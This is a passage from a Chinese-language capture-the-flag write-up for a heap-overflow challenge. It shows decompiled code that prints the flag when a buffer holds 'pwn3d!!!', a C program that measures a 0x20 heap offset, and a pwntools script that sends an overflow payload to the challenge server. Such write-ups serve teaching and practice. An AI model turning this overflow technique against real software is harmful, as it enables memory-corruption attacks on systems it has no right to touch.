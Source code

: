 ```c=
    while ( 1 )
    {
      v5 = fgetc(stream);
      if ( v5 == -1 )
        break;
      putchar(v5);
    }
  }
  else
  {
    puts(aIThinkYouHaven);
  }
  return fclose(stream);
}
```
可以看出當`dest`內含有"pwn3d!!!"字串，就可以看到flag了
值得注意的是，`v7`和`dest`在執行時有用`malloc()`動態分配空間
我因為怕計算錯誤，寫了個C code模擬看到空間計算offset:
```c=
#include <stdio.h>
#include <stdlib.h>

int main() {
    void *v7;
    void *dest;

    v7 = malloc(0x14uLL);
    dest = malloc(0x14uLL);

    printf("v7: %p\n", v7);
    printf("dest: %p\n", dest);

    free(v7);
    free(dest);

    return 0;
}
```
執行結果:
```
v7: 0xbb32a0
dest: 0xbb32c0
```
可以算出offset = 0xbb32c0 - 0xbb32a0 = 0x20

我們就可以撰寫exploit:
```python=
from pwn import *

#r = process('./chal_23')
r = remote("chal.nhnc.ic3dt3a.org",2000)

r.sendline(b'a'*0x12 + b'cat_sleeping')
r.recvuntil("Enter the name: ")
r.sendline(b'A'*0x20+b'pwn3d!!!')
r.interactive()
r.close()
```
